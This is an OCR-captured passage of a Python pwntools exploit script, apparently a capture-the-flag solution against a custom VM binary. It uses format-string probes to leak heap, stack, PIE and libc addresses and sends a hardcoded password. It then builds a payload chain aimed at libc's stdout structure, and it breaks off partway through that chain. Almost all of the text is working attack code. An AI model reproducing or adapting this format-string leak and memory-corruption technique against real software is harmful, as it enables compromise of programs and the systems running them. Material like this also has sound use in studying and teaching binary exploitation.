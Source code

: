```py
pl += p32(0x220) # ret1, change param to call read(0, 0xf000, 0x40)
stack_vm = stack_vm + 8
pl += p32(stack_vm)
pl += p32(0x1230) # ret2, change param to call read(0, 0x8000, 0x8050)
stack_vm = stack_vm + 4
pl += p32(stack_vm)


pause()
r.send(pl)
#sleep(0.5)
pause()
r.send(b'ABC')
pause()
r.send(b'%p|' * 43 + b'F' * 5 + b'%p|' * 2)
r.recvuntil(b'0x')
heap = int(r.recvuntil(b'|').strip(b'|'), 16)
log.info(f'Heap: {hex(heap)}')
for i in range(5):
    r.recvuntil(b'0x')
stack = int(r.recvuntil(b'|').strip(b'|'), 16)
log.info(f'Stack: {hex(stack)}')
r.recvuntil(b'0x')
e.address = int(r.recvuntil(b'|').strip(b'|'), 16) - 0x7080
log.info(f'PIE: {hex(e.address)}')
r.recvuntil(b'F' * 5)
l.address = int(r.recvuntil(b'|').strip(b'|'), 16) - 0x29d90
log.info(f'Libc: {hex(l.address)}')

stack_vm = 0xdffc
stdout_bin = e.address + 0x7040

padding = 32
vm = heap - 0x8010
r.recvuntil(b'|')
r.sendline(b'V3ry53cretP4ass')

pl = b'\0' * padding
pl += p32(stack_vm + 8)
pl += p32(0x220)
pl += p32(0) * 1
pl += p32(stack_vm + 16)
pl += p32(0x1230)
pl += p32(stack_vm + 32)
pl += p32(0x720)
pl += p32(0) * 2

pl += p32(stack_vm + 40)
pl += p32(0x1250)

stdout = l.sym._IO_2_1_stdout_
pause()
r.send(pl)
pause()
r.send(b'A')
pause()
r.send(b'%s\0')

chain = set_param(0, 0)
chain += set_param(1, (stdout_bin - vm) & 0xffffffff)
chain += set_param(2, 0x1000)
chain += exec()
chain += set_param(0, 1)
```